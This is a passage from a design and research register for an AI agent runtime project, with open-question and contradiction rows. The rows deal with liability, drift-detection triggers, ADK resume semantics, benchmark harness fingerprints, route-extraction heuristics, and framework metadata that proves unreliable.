| O-03 | **Liability allocation for the confused deputy** | If a generated agent running on our infrastructure with customer credentials destroys customer data after a prompt injection, who pays? **Narrowed 2026-08-02 by `plan.md` OD-08 (D-20), and narrowed rather than closed for a reason worth stating: the premise changed and the question did not.** "Running on our infrastructure" is false for v1 — the agent, the broker and the credentials are all inside the customer's boundary — which removes the strongest version of the claim against us and removes cross-customer blast radius entirely (§2.9). **What survives is the same question with a different theory: not custodial negligence but a defect in an artifact we generated.** A tool we synthesized and mislabelled `read_only`, executed by an agent we emitted, destroying data under an injection, is a product-liability question rather than a hosting one, and D-16's 0.98 precision gate exists precisely because that label is the load-bearing part (U-02). **Closing this entry would be the failure mode**: self-hosting relocates the liability argument, it does not end it. | ~~Counsel, before the hosted resource plane ships.~~ **Amended 2026-08-02: counsel twice, and the first time is sooner than this row implied.** (1) Before the *first emitted write tool* ships — that is a v1 event under D-16, not a hosted-tier event, and it is the product-liability limb. (2) Before the hosted resource plane ships, for the custodial limb, which is deferred with the hosted tier. It may still change the product design; it is now more likely to change the review gate and the emitted artifact's warranty language. |
| O-04 | **Knowledge-layer refresh cadence** | One-shot is immediately stale; continuous creates a system whose behavior changes without a diff. Incremental-on-commit is the pragmatic middle but unspecified. **Sharpened 2026-08-02 by `plan.md` OD-06, and the sharpening exposes an assumption this row was carrying silently: there are two artifacts on two clocks, and this row describes one of them.** The knowledge layer is the source-derived artifact and its clock is commits. The reachability annotation's clock is a deployment's configuration, its rollout, and its installed package set (U-35) — **none of which produces a commit**, so no cadence keyed to the repository can see deployment drift at all. | ~~Specify alongside drift detection; they are the same machinery.~~ **Amended 2026-08-02: the same machinery for the *source* half only. The claim was written when there was one artifact to refresh.** OD-06 makes codebase drift and deployment drift **separately detectable** — a tool goes stale because the handler changed or because the deployment stopped serving it, wanting regeneration in the first case and fail-closed in the second — which is a gain rather than a complication, and it is why §1.2's drift-detection differentiator is now more concrete than it was. **What this row must specify is two triggers rather than one**, and the second has no natural event to hang on: re-probe on a schedule, on a change of deployment identity, or on the per-tool precondition failing in front of a user (D-18 part 4). Pick one and say which. **One inconsistency is flagged rather than resolved here, because it is not this document's to change:** `plan.md` E13 tests drift by mutating the *codebase* — rename a route, change a parameter type, delete an endpoint — and has no arm in which the source is unchanged and the deployment stops serving an operation. That second failure mode is now named and separately detectable, and it has no experiment behind it. **Narrowed further 2026-08-02 by `plan.md` OD-08 (D-20), and this is the entry OD-08 changes most while closing nothing.** OD-08 accepts "no telemetry" as a cost of self-hosting, which means **both** triggers this row must specify have to fire *on the customer's box, unattended, with no phone-home*. Three consequences follow that were free under an unresolved deployment model. A schedule is now the only trigger that needs no external event, and it needs a scheduler we ship rather than one we run. A change of deployment identity (D-17 requirement 4) is detectable locally and is the cheapest of the three — it is the one to prefer. And the per-tool precondition failing in front of a user (D-18 part 4) is the only one that is *guaranteed* to be observed, because the user observes it, which makes it a fallback rather than a design. **What this does not do is narrow the choice to one**, so the row stays open: the instruction is still "pick one and say which," now with the added constraint that whatever is picked must work with nobody watching. **Annotated 2026-08-03 by `plan.md` OD-20 and OD-21 — the row is annotated rather than replaced by a new register row, following the precedent OD-15, OD-16 and OD-17 set, and it stays open.** OD-20 picks, for v1: a scheduled re-fetch of the target's own published specification is the default automated trigger, manual invocation is always available, and a customer-emitted deployment event is admissible but may not be the only one ([`spec.md`](../specs/002-spec-aware-agent-runtime/spec.md) FR-029, FR-046). That satisfies "pick one and say which" **for the deployment clock in v1 only**, and by choosing the schedule — the trigger this row already identified as the only one needing no external event under OD-08's no-telemetry constraint. **OD-21 supplies the case this row never reached: what happens when the picked trigger fails to fetch at all.** The answer is serve the last-known-good set marked stale and deny past a configured staleness ceiling (FR-047, SC-021), which is a third application of the mark-rather-than-withhold discipline **D-17** already mandates. **Why the row does not close.** Its instruction is wider than one deployment-clock failure mode: the deployment-identity trigger (D-17 requirement 4) this row calls the cheapest of the three is *not* what OD-20 chose and is not evaluated against it; the per-tool-precondition fallback (D-18 part 4) is untouched; the source-clock half is not what OD-20 decided; and **the inconsistency this row flags is still live** — `plan.md` E13 mutates the codebase and has no arm where the source is unchanged and the deployment stops serving an operation, which is now the exact scenario a shipped requirement (FR-047) depends on and no experiment has ever run. **Neither decision measures anything**: FR-046's five-minute interval and FR-047's fifteen-minute ceiling are configured defaults bound to FR-043, not results. **⚠️ RECORDED AS A MEASUREMENT OBLIGATION 2026-08-03, and stated without softening: FR-047 SHIPS UNMEASURED.** The inconsistency above was re-verified against `plan.md` E13 directly rather than carried forward on trust, and it holds. E13's question is *"When the codebase moves and the tool pack does not, does the system fail closed?"*, and its three named mutations are **rename a route, change a parameter type, delete an endpoint** — every one of them moves the source. **There is no arm in which the source is unchanged and the deployment stops serving an operation, and a fortiori none in which an admitted target's published specification is withdrawn**, which is the narrower scenario FR-047 actually governs. **E13 also never ran at all** ([VERDICT.md](../specs/001-discovery-validation/VERDICT.md), E12–E13: *not run*), so the shortfall is twofold — the experiment nearest to FR-047 lacked the arm, and it did not execute the arms it had. **What ships unmeasured, precisely.** Nothing in this corpus bears on what a runtime should do when an admitted target stops publishing its specification: not the disposition itself (serve the last-known-good set marked stale, versus deny on the first failed re-fetch), not the fifteen-minute ceiling, not deployment-clock detection latency, and not the rate at which a specification endpoint blips transiently rather than permanently — which is the quantity that would say whether OD-21 chose the right limb. **SC-021 does not close this and must not be read as closing it**: it measures an implementation's conformance to FR-047 against a fixture built from FR-047, which is a conformance test rather than evidence that the disposition is correct. **The obligation is recorded rather than disguised as coverage**, following the treatment `plan.md` **OD-14** established for the three v1 capabilities that already ship without measurement — an explicit departure from this feature's prove-before-build discipline, deferred to production against real traffic, and stated as one. It is recorded at the production plan's [Complexity Tracking](../specs/002-spec-aware-agent-runtime/plan.md#complexity-tracking) table, where the other unsatisfied items live. **This row stays open**, and the obligation does not close it: O-04's question is wider than the one deployment-clock failure mode OD-21 answers. |
| O-05 | **Whether the iframe is a product at all** | Once reduced to no shell, no writes, no memory, it may not be worth the surface area. **Narrowed 2026-08-02 by `plan.md` OD-08 (D-20): the iframe is deferred with the hosted model, so this stops being a v1 scoping question and becomes a post-v1 one.** It does **not** close — the question was "is it a product," and deferring a thing is not deciding it. Two of OD-08's consequences make the eventual answer *more* likely to be no than this row assumed, which is why the deferral is worth recording rather than filing: a self-hosted deployment has nowhere natural to host an anonymous browser session, and OD-07's mandatory general fallback means the v1 agent holds shell, so the iframe would have to be a genuinely separate emitted artifact rather than a thinner view of the same one (C-15, §2.8, §7.6). | ~~Decide after P-01.~~ **Amended 2026-08-02: decide after v1 ships self-hosted, with P-01 still an input rather than the trigger.** The v1 constraint in the meantime is negative and cheap to honour: no serving-layer or credential decision may foreclose a weaker anonymous tier later (D-20 discipline 1). If v1 is Class B the iframe is a demo; if Class A it is nearly pointless — that reasoning is unchanged and now gets real usage data before it has to be applied. |
| O-06 | ~~**Does ADK's checkpoint/resume count as *present* or as *missing*?**~~ — ✅ **RESOLVED 2026-08-02, the same day it was opened. The owner took neither reading and blended them.** ⚠️ **MOOTED 2026-08-03 by `plan.md` OD-15 — v1 runs no ADK, so the primitive has no bearing on v1's substrate. The row is kept because its *reasoning* is the reasoning OD-15 acted on.** | **⚠️ 2026-08-03: read this cell as history.** OD-15 does *not* take the *missing* reading retroactively — the question was about whether to count a primitive, and OD-15 removes the thing being counted for a different reason (three of OD-01's four grounds lost their subject against a v1 design). **Two consequences must not be blurred.** The *"blend takes the first reading's substrate and the second reading's distrust"* — the substrate is gone and only the distrust remains, so **v1 now carries the safety posture of *missing* with none of the machinery of *present***, which is the harshest honest reading of OD-15's cost and is exactly what this row's *what each reading would have cost* column priced. And the cell's clause *"the §2.6 build items keep their ADK-shaped sizing because OD-01 chose to stay inside ADK, so they are validated rather than invalidated"* is **now false**: OD-15 un-chooses that, the sizing is ADK-shaped with no ADK under it, and §2.6 records it as unvalidated with no re-derivation (U-48). **U-12's remaining private-module exposure is discharged in full**, since we depend on no ADK module, public or private. The five-of-five resume result stays true about ADK and stops being true about anything v1 ships. **The decision is OD-01 in `plan.md`, and it is folded into D-05. Recorded here in full because the reasoning generalizes beyond this one call.** Rather than counting the primitive and letting the count decide the architecture, the owner **redrew the seam**: we live inside ADK's graph execution, lifecycle, HTTP/SSE serving, and provider abstraction — the four things measured working — and rely on none of its four loop-safety primitives, building our own wrapping layer instead. The stated reasoning is the part worth keeping: **ADK's safety machinery is not absent, it is partial, and partial is the more dangerous condition because it invites reliance.** The budget that resets on resume is the clearest case, since it looks like a ceiling and is not one. That reframing dissolves the question rather than answering it — the framework-versus-library axis was the wrong axis, because the answer differs by *what the component does* rather than by *how much of the framework we take*. **Note that the resolution does not turn on the `@experimental` point**: the earlier shorthand had `is_resumable` gating resume itself, when it actually gates checkpoint-event emission and the `end_of_agent` marker, and both configurations are at-least-once either way. OD-01 rests on the at-least-once and zero-inner-granularity measurements, which the correction leaves untouched, so the decision stands unchanged by it. **What follows for the registers:** D-05 moves from provisional to decided; the §2.6 build items keep their ADK-shaped sizing because OD-01 chose to stay inside ADK, so they are validated rather than invalidated; and U-12's sharpest limb is discharged while its private-module exposure remains. **The evidence for both original readings is retained below, because the gate was pre-registered and a future reader should be able to see what was traded.** [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) recorded the verdict as *present, at-least-once*, argued for counting it present, then deliberately declined to settle the question and called it "the single most consequential line in this document." **The case for *present*:** resume demonstrably works, 5 trials out of 5 — a process `SIGKILL`ed at iteration 3 of 6 was replaced by a fresh process that reopened the SQLite session, reconstructed progress from the event log, and finished with state intact. The runtime supplies real machinery that we would otherwise write. **The case for *missing*:** the counting rule is "the runtime does not supply it and we must build it," and under our intended usage we must build it. It is at-least-once, so every side-effecting node needs an idempotency key we write. It is gated behind an `@experimental` flag that defaults to off, and shipping without that flag also forfeits the only signal distinguishing completion from cancellation. And it has **zero granularity inside a node**, while hosting our own agent loop inside a node is precisely the architecture — 4 of 4 completed inner turns re-executed. On that reading the runtime supplies resume for a shape we do not intend to use. **What each reading would have cost:** *present* would have kept the count at two, cleared the gate, and left the 2.5–3.5 weeks as the whole bill — but would have left us relying on a partial ceiling. *missing* would have made the count three, failed the gate, and reduced ADK to a library called from our own loop, discarding a graph runtime and session model that were measured sound. **The blend takes the first reading's substrate and the second reading's distrust**, which is why it costs the same 2.5–3.5 weeks as *present* while carrying the safety posture of *missing*. | **Done — no further step is required for the decision.** One item survives it as useful work rather than as a dependency: [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) did not exercise the dynamic-workflow tier (`ctx.run_node()`), which research describes as automatically checkpointed and which may have finer granularity than the graph tier. Under OD-01 that no longer influences *whether* we build the journaling layer — we build it regardless — but it still bounds how much of the layer that tier could absorb, so it still feeds U-31. Roughly 30 minutes. |

---

## 4. Contradiction register

Where the corpus disagrees. Every row states a resolution or explicitly declines to.

| # | Contradiction | Resolution |
|---|---|---|
| C-01 | **[02](./02-agent-harnesses.md): "no one runs an agent loop on a durable execution engine" vs. [10](./10-topology-in-practice.md): Cursor runs its cloud agent loop in Temporal at >50M actions/day.** | **[10](./10-topology-in-practice.md) wins, unambiguously.** It cites Cursor's own engineering post, including the reported move from ~1 nine to >2 nines of reliability attributable to the migration alone. [02](./02-agent-harnesses.md)'s claim was a negative result from a framework survey and does not survive a named counter-example at that scale. **Consequence:** durable execution is a *proven* option, not a theoretical one — which strengthens rather than weakens [02](./02-agent-harnesses.md)'s actual rule, since Temporal is execution-path infrastructure that never sees prompts or tokens. Still not needed for a read-only v1. **Extended 2026-08-02, without changing the resolution:** the "still not needed for a read-only v1" clause survives, because at-least-once re-execution of a read is harmless. But [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) measured what *not* having a durable layer costs beyond v1 — 1–1.5 weeks of idempotency and inner-loop journaling, unavoidable by switching agent frameworks because ADK and LangGraph share node-boundary checkpointing semantics — so the option is no longer only proven, it is priced. Tracked as U-31. |
| C-02 | **[07](./07-product-vision.md)'s represent/execute proposal vs. [10](./10-topology-in-practice.md)'s refined trigger.** | **[10](./10-topology-in-practice.md) supersedes.** [07](./07-product-vision.md) triggered escalation on "is there a step the model must not skip," which is a judgment call that will be argued in every design review. [10](./10-topology-in-practice.md) triggers on **who holds the plan** — observable, and the axis Anthropic itself uses. [10](./10-topology-in-practice.md) also redefines "execute" from node/edge graph to deterministic journaled imperative code, which matches what actually shipped in Claude Code v2.1.154. Adopt [10](./10-topology-in-practice.md)'s formulation verbatim. |
| C-03 | **[12](./12-examples-as-corpus.md)'s phase structure vs. [11](./11-validation-plan.md)'s phases.** | **Both are right about different things; [11](./11-validation-plan.md) owns the numbering.** [12](./12-examples-as-corpus.md) was written before [11](./11-validation-plan.md) existed and its phases are *corpus-selection* phases (which repo to point at). [11](./11-validation-plan.md)'s are *hypothesis* phases (which claim is being falsified). Reconciliation: **[12](./12-examples-as-corpus.md) Phase 0 and Phase 1 become Phase 0a — a free, offline, no-LLM prerequisite** to [11](./11-validation-plan.md) Phase 0. [12](./12-examples-as-corpus.md) Phase 3's `adk-python`/`api_server` target becomes the *rehearsal* for [11](./11-validation-plan.md)'s Mealie setup. [12](./12-examples-as-corpus.md) Phases 2/4/5 fold into [11](./11-validation-plan.md) Phases 3/4/5. Section 6 below is the merged plan. |
| C-04 | **LangGraph `durability` default: `"async"` (astream reference, PR #5432) vs. `"sync"` (persistence guide).** | **Unresolved, and I decline to resolve it from documentation.** Two vendor pages contradict each other; the merged PR agrees with one of them. If LangGraph is ever on the path, assert the default in a test against the pinned version. A related unresolved 2026-03-01 comment on the same PR claims *no* single mode persists both on interrupt-exit and mid-run. Treat LangGraph durability as unknown until measured. |
| C-05 | **Terminal-Bench scores: 91.9% vs. 89.5% vs. 88.0% for the same model family across three sources ([01](./01-agent-anatomy.md) §9.3); a sibling document hit the identical pattern on a different benchmark ([05](./05-frontier-lab-agent-definitions.md) §6).** | **This is not a measurement dispute to be resolved — it is evidence that the measurement is unreliable.** The right conclusion is [01](./01-agent-anatomy.md)'s: **any benchmark number without a harness, effort level, attempt count, and sandbox specification is unusable.** Concretely for us: never cite a public benchmark in a product claim, and always emit `harness_fingerprint` in our own results. **Extended 2026-08-02, and the extension is the reason to keep this row: the rule now has a first-party instance, and it is the subtlest result in the corpus** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §5). This row was written about other people's benchmarks, and the `harness_fingerprint` instruction read as prudence. It is not. **E14 reported a recall of 0.9655 for its reachability probe; E15 reported 1.0000 for the same probe running the same defect, and the only difference was the sentinel string used to concretise a path parameter.** E14 used `__f2a_probe__`, a valid Python identifier that the target's validator accepted, so an absorbed handler ran and returned its own 404, read as "unrouted" and charged to recall. E15 used `f2a-probe`, which the same validator rejects with a 400, read as "routed" and charged to nothing. **The same two handlers were invoked either way. The defect did not change. The accuracy metric moved 3.5 points because of a hyphen.** Two things follow and both are more general than reachability. **First, the metric was measuring the wrong property**: what looked like an accuracy shortfall was a *safety* defect — handlers executing inside a check advertised as side-effect-free — and reporting it as recall made a safety problem look like a tuning problem, which is the direction of error that gets a defect deprioritised. **Second, an incidental harness constant that nobody thought worth recording moved a headline number**, which is exactly the failure this row diagnoses in Terminal-Bench, arriving in our own results. So the instruction hardens from *emit `harness_fingerprint`* to **enumerate the arbitrary constants a harness chose — sentinel values, probe verbs, concretisation strategies, timeouts — as part of the fingerprint, and re-read any metric that moves when one of them changes as measuring the constant rather than the mechanism.** D-17 is the same asymmetry governing emitted artifacts; this row is the same asymmetry governing the numbers we make decisions with. |
| C-06 | **Claude Agent SDK license: npm says "SEE LICENSE IN README.md" (proprietary-shaped); PyPI metadata says MIT.** | **RESOLVED 2026-08-02 — both are correct, because they describe different layers.** Verified against the vendored checkout (`examples/claude-agent-sdk-python`, v0.2.128): `LICENSE` is a verbatim **MIT** license (© 2025 Anthropic, PBC) and `pyproject.toml` declares `license = {text = "MIT"}` with the OSI MIT classifier. The README's "License and terms" section points at Anthropic's Commercial Terms of Service *"except to the extent a specific component or dependency is covered by a different license as indicated in that component's LICENSE file"* — and that carve-out is precisely what makes the two claims coherent. **MIT covers the Python wrapper; Commercial ToS covers the service it calls and the CLI it drives.** See U-01 for the residual constraint, which is about redistribution, not use. |
| C-07 | **[06](./06-examples-inventory.md): `codegraph` supports 29 languages vs. [12](./12-examples-as-corpus.md): 28 `.wasm` grammars counted.** | **Definitional, and minor.** Almost certainly non-tree-sitter extractors counted separately. Resolve by enumeration during Phase 0a; it changes nothing architecturally. Noted here so nobody publishes a number they cannot defend. |
| C-08 | **"Multi-agent doesn't work" ([01](./01-agent-anatomy.md), MAST 41–86.7% failures) vs. "multi-agent works in production" (Cognition's updated position, [01](./01-agent-anatomy.md) §7).** | **Both, under a condition that is easy to state and easy to violate: writes stay single-threaded, and you fan out only for reads.** MAST's failures are two-thirds architectural, with *missing termination conditions* the largest sub-category — a bug of harness discipline, not of the multi-agent idea. Our decision rule is unchanged: build multi-agent only if arm A4 beats budget-matched single-agent A5, and if we do, writes remain single-threaded. **Deferred to v2 2026-08-02 (`plan.md` OD-09), and the deferral does not count as evidence.** v1 is a single agent by scope decision, so the condition is trivially met and the rule is untested — A4 vs. A5 never ran (P-05). Carry the condition forward intact; do not let "v1 shipped one agent and was fine" be read as having satisfied it. |
| C-09 | **[07](./07-product-vision.md) Q1 recommends Class B outright vs. [11](./11-validation-plan.md) makes agent class an experiment vs. the owner's explicit deferral.** | **The owner's deferral governs; [11](./11-validation-plan.md) implements it; [07](./07-product-vision.md)'s recommendation becomes the prior, not the decision.** Stated plainly because [07](./07-product-vision.md) says "everything downstream in this brief assumes it" — so if Phase 3 says Class A, a large fraction of [07](./07-product-vision.md) §6 must be re-derived, and that is fine and expected. |
| C-10 | **[02](./02-agent-harnesses.md) rates ADK's graph workflows as possibly still "Alpha" vs. [10](./10-topology-in-practice.md) verifies ADK 2.6.1 is all-in on graphs, with template agents `@deprecated`.** | **[10](./10-topology-in-practice.md) wins on evidence** — it read the vendored source (`BaseAgent(BaseNode)`, `@deprecated` decorators on `SequentialAgent`/`ParallelAgent`/`LoopAgent`). [02](./02-agent-harnesses.md)'s uncertainty came from one version-pinned doc page lagging the blog. **But [10](./10-topology-in-practice.md)'s own caveat stands:** the `workflow/` package is entirely underscore-private with a lazy public façade. Pin the version and re-verify before depending on any of it. **Partially discharged 2026-08-02 — the graph tier has now been run rather than read** ([finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md)). At 2.6.1 it executes, persists, resumes across a real `SIGKILL`, enforces `max_llm_calls`, and replays deterministically from a byte-identical checkpoint, so "possibly still alpha" is settled in the direction [10](./10-topology-in-practice.md) argued. **The caveat does not go away, it relocates and sharpens:** the exposure is not the underscore-private package generally but the one feature we cannot ship without, `ResumabilityConfig`, which is decorated `@experimental` and defaults to off. See U-12 for the specific regression test that covers it. **✅ MOOT FOR v1 2026-08-03 — `plan.md` OD-15 drops ADK, so neither reading of its graph tier's maturity bears on anything v1 ships, and the relocated caveat goes with U-12.** The contradiction is *dissolved rather than adjudicated*: [10](./10-topology-in-practice.md) still wins on the facts and the facts still describe a package v1 does not import. **Kept for v2 and for any future re-evaluation of ADK**, which OD-15 explicitly does not foreclose. |
| C-11 | **[09](./09-mcp-as-tool-surface.md): MCP is the headline product artifact vs. [01](./01-agent-anatomy.md)/[09](./09-mcp-as-tool-surface.md): MCP cannot express effect metadata.** | **Not actually a contradiction — it is the two-tier answer.** Internally, tools carry effect labels in our own schema and the trifecta check runs at compile time. Externally, the MCP export drops the labels because the wire format has no slot for them, and the export is therefore *documented as a downgrade*. Say that out loud in the product: "the MCP server is the portable subset; the full safety model requires our runtime." That framing turns a limitation into a reason to keep the runtime. **⚠️ The resolution's first half is void for v1 as of 2026-08-02 (`plan.md` OD-09) and the row must not be quoted whole.** *"Internally, tools carry effect labels in our own schema and the trifecta check runs at compile time"* describes a synthesized catalogue v1 does not emit, so the internal tier of the two-tier answer is empty and the compile-time check has nothing to range over (C-16). The external tier is deferred with the export adapter (D-06). **The v1 form of the sentence is: internally, an effect tier is resolved per call at an interception point that can block (D-22); there is no compile-time trifecta check; and there is no MCP export to downgrade from.** The two-tier answer is retained as the v2 resolution, where it is still correct. |
| C-12 | **[finding 001](../specs/001-discovery-validation/findings/001-structure-recovery.md): an HTTP-verb filter lifts route precision from 74.6% to essentially 100% vs. [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md): the same filter removes zero of 41 false positives.** | **Both measurements are correct; the generalization drawn from the first was not.** Finding 001's target was 96% TypeScript, where the extractor files verb-less React Router paths under the same `route` node kind as server endpoints — so requiring a verb separates them cleanly. Finding 004's target is 91% Python, where the extractor always emits a verb, making the filter a no-op; worse, the dominant false-positive class there is `@mock.patch("...")` in test files, lexically identical to an HTTP `PATCH` and therefore *surviving* the filter. A leading-slash filter works on Python (0.6273 to 0.8846) and was likewise found only after inspecting that codebase's failures. **Resolution: the verb filter is a property of one extractor's output, not of route extraction, and it is retracted as a general rule.** The durable lever, which fixed the dominant error class on *both* codebases, is **scoping analysis to the application's own source tree** (0.6273 to 1.0000 on Python). **Process consequence, which is the larger point:** both filters were derived by looking at one codebase's failure mode after seeing it, which is how heuristics that do not transfer get born. No deterministic filter enters the product before a second independent codebase in a different language confirms it. **Extended 2026-08-02 — the rule already has a second population to govern, and nobody applied it there.** [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §5 discloses that **all five** of its contract-derivation rules were written after inspecting this same repository's failures, exactly as the verb filter was. They are more defensible — each corresponds to a documented first-class FastAPI or Pydantic feature rather than a lexical coincidence — but the finding is right that this is an argument rather than evidence, and the verb filter also looked principled before the second codebase. **The concrete carry-forward is the all-rules-disabled figure, 40/69 = 0.5797**, which is what a first-pass extractor plausibly scores on a framework nobody has tuned it for, against 0.7681 tuned. Tracked as U-32. **Extended again 2026-08-02, and the carry-forward needs sharpening rather than repeating.** [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §1 discloses a **third** rule population discovered the same way: all eight mechanisms of its configuration parser were written after inspecting this same repository's gating constructs, each individually switchable so its contribution is measurable. Two results change what this row should be read as carrying forward. **First, the all-disabled figure is 0.0000 predicted operations, not "degraded."** Finding 007's 0.5797 permitted a defensible reading in which the rules are refinements on top of an analysis that works without them; 0.0000 forecloses it. The mechanism set is not a refinement layer, **it is the analysis** — and disabling ~~`M1_class_dispatch` alone~~ **either `M1_class_dispatch` or `M2_kwarg_flow` alone** also predicts zero, so the collapse does not even require disabling all eight. *Corrected 2026-08-02 ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §2): this row, D-18 part 3 and U-38 all propagated "M1 alone" from finding 010's prose, while finding 010's own committed ablation table shows `off-M2_kwarg_flow` predicting **2 operations of 324 at precision 0.0000** — a collapse by the same reading. No new measurement was needed; the existing numbers were re-read. **Two of eight single-mechanism removals are catastrophic rather than one, which makes this row's argument stronger: the unmeasured middle of that curve is a worse bet than it looked, and the error itself is an instance of the very thing this row is about — a claim that survived one propagation because nobody re-read the table it came from.*** So the honest expectation for this technique on a framework nobody has tuned it for is not "somewhat worse than 1.0000" but "recovers nothing until eight specific capabilities are built, and which eight depends on the framework." **Second, one of the eight was dead code that scored as load-bearing.** `M5_optional_import` was written for a `try: import … / except ImportError:` guard, and disabling it changed not a single number, because the propagator does not execute exception handlers and so never took the early return. Nothing in the tuned figure revealed that; only the ablation did — which is a direct argument for **ablating every rule individually rather than reporting the tuned number**, and for treating a rule that costs nothing when removed as a bug rather than as redundancy. Chasing why it did nothing is also what produced the post-hoc configuration that separated the arms. **A third, and it is the one that generalises furthest.** The first-pass version of that parser scored **worse than doing nothing at all eight configurations**, with a false-inclusion rate of **0.75** over the null set — it predicted routes belonging to *other applications in the same repository* as served by the deployment under test. That is the very error class this row already names its durable lever against: scoping analysis to the application's own source tree. A guard scan reintroduces it *inside* a source tree, because the scan knows what predicate gates a declaration and not which application the declaration belongs to. Tracked as U-38. |
| C-13 | **[finding 001](../specs/001-discovery-validation/findings/001-structure-recovery.md): 58% of endpoints reach two or more callees, making handler disambiguation the major net-new work item vs. [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md): 69 of 69 routes reach exactly one callee, with zero ambiguity and zero dead ends.** | **Both are correct, and the disagreement is per-language rather than per-task.** codegraph's Python framework resolver emits a **direct `references` edge from the route node to the `def` following the decorator**, which is what the decorator syntax means; the linked function matched the framework's own `route.endpoint.__name__` 69 times out of 69. The TypeScript path has no such edge kind and must infer the handler from generic `calls` edges, which is why it reaches loggers, validators, and serializers alongside handlers. **Resolution: the 58% figure stands for TypeScript and is scoped to it.** The work item is re-shaped, not deleted — it is **"emit a direct route-to-handler edge for every supported framework,"** which is smaller, better-defined, and already demonstrated by the tool itself in one language. Until the TypeScript path has that edge, the ambiguity there is real and the model-proposes/contract-disposes fallback remains the plan for it. |
| C-14 | **NEW 2026-08-02 — inside a single measurement, the same framework's own published metadata is exact on one question and quietly wrong on the next.** [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md): `GET /openapi.json` recovers reachability at **precision 1.0000 and recall 1.0000 across eight configurations**, dropping zero served operations — while the `Allow` header, populated by the same framework on the same running process, **under-reports served methods by 24–28%**, and the schema itself covers only **0.8148–0.9206** of the full served surface. "Trust the framework's description of itself" and "the framework's description of itself silently dropped a quarter of the operations" are both conclusions of the same finding. | **Not a dispute to adjudicate — a rule about scope.** Framework-published metadata is authoritative **about what it is generated from, over the subset it is generated over, and nowhere else.** The schema is generated from the route table's `APIRoute` entries, so it is exact over those and blind to WebSockets, static mounts, documentation routes, and runtime-computed prefixes — a boundary knowable in advance rather than discovered by surprise. The `Allow` header is generated from the *first* matching route rather than the union across routes sharing a path (a Starlette `Router.__call__` property), so it is exact only where no path carries two routes, which is not a property anyone would think to check. Three operational consequences. **Use framework metadata as an input where it is exact over a defined subset, and label the subset in the artifact** (D-17, D-18). **Never treat a framework-populated field as authoritative without checking it against the route table** — that is the check that caught this one. And **prefer the field the framework generates from the thing you care about over the field that merely correlates with it**: the schema is generated from the routes, the `Allow` header from one route. **On the lineage, which needs correcting rather than repeating.** The finding calls this the third instance of the pattern in three findings and cites finding 004's `.gitignore` filter, finding 007's alias generator, and this. **The count of three holds; one of the three citations does not.** The pattern that has three instances is D-17's — *a populated field that is wrong is more dangerous than a missing one* — and finding 004's instance of it is the **`docstring` column** (U-27), where 354 of 355 populated values are not docstrings. The `.gitignore` filter (U-28) is the *opposite* shape, silent omission, and finding 004 draws that contrast itself in as many words: *"a blank field is safe; a confidently wrong field is not."* So the correct lineage is docstring, alias generator, `Allow` header — across findings 004, 007 and 010, which is three findings. **On the narrower framing this row takes, however, it is a first rather than a third.** Of those three instances only the `Allow` header is published by the *target framework*; the docstring is published by our analyzer and the alias-generator failure is our own derivation stopping one inheritance hop short. **This is the first measured case of the target framework itself being the unreliable publisher**, and that is a worse position than the other two, because the other two are ours to fix. **Strengthened 2026-08-02 by E15 — see the three paragraphs below this table.** **A FOURTH INSTANCE, 2026-08-03, and it is the first of the four that is silent, successful, and on the *runtime* path rather than the analysis path** ([finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md)). Mealie's `categories` query parameter is documented, correctly typed, and accurately described by the framework's own published schema. Asked for a value it cannot resolve — a display name, a nonsense string, or the empty string — it answers **HTTP 200 carrying the entire unfiltered collection**, 60 records where 7 were correct, with no error, no empty result, and nothing in the response distinguishing *your filter matched everything* from *your filter was discarded*. Established model-free by direct probe against the running instance, and corroborated by committed traces on both sides: the failing run filtered by display name and `jq '.total'` returned `60`, every passing run filtered by UUID and it returned `7`. **Three things make this worse than the other three instances rather than merely another of them.** ① **The metadata is not wrong.** The `Allow` header under-reports and the alias generator mis-derives; here the schema is *accurate* and simply silent about a behaviour no schema has a slot for, so the check that caught the other three — compare the published field against the route table — cannot catch this one. ② **The failure is a success.** All three earlier instances produce an artifact a reader can inspect and find wrong. This one produces a 200 and a well-formed body, which means **contract-derived verification as D-09 and D-17 specify it cannot see it**: status code in the declared set, response matching the declared model, every postcondition derivable from the contract satisfied. The only thing that would have caught it is an oracle about the *domain* — that seven recipes are Breakfast and sixty are not — and derived contracts do not carry domain oracles. ③ **It is on the path the agent runs on**, not the path we analyse on, so it is not ours to fix and it does not stop at emission time; it recurs on every call, in production, at the customer's target. **The operational consequence, added to the three above.** A derived verifier must treat *the response is well-formed and the status is declared* as **necessary and not sufficient** wherever a request carries a filter, a scope or a selector — the class is *unresolvable selector silently ignored*, it is common enough to generalise as a hazard, and nothing here measures how common. And the safety reading of this instance runs the opposite way from the synthesis reading, which is C-18. **A FIFTH INSTANCE, 2026-08-03, and it is a corollary rather than another example of the same shape** ([finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md)). The four above are cases where the published metadata is *wrong* or *silent about a behaviour*. This one is a case where it is **accurate and simply absent**, and it lands on the design of a derived verifier rather than on any single field. E8's §4.5 pre-registered "compare at the schema's declared precision" — a reasonable instruction that turns out to have **no referent on this target at all**: `openapi.json` declares **no numeric precision anywhere, across 243 component schemas**, no `multipleOf` and no numeric `format` on any of them. So a verifier derived from published metadata alone, asked to check a number, must **either invent a tolerance or refuse**, and inventing one is worse than refusing because a tolerance chosen after seeing the corpus is fitted to it. What E8 did instead is the honest form and is worth copying: a six-rung precision ladder committed *before* any derivation was written, **containing no numeric constant** — every rung names a *source* of precision rather than a value, every comparison is exact equality or exact equality at a derived number of decimal places, and the last rung is a **refusal**. Across 61 requests it yields 28 integer-closed exactness, 9 text or set identity, 6 the application's own serialisation, **1 read out of the request text**, and **17 refused**. Read the last two numbers together, because they are the corollary: **the only precision the target ever declares comes from the prompt rather than the contract, and better than a quarter of the projections have no 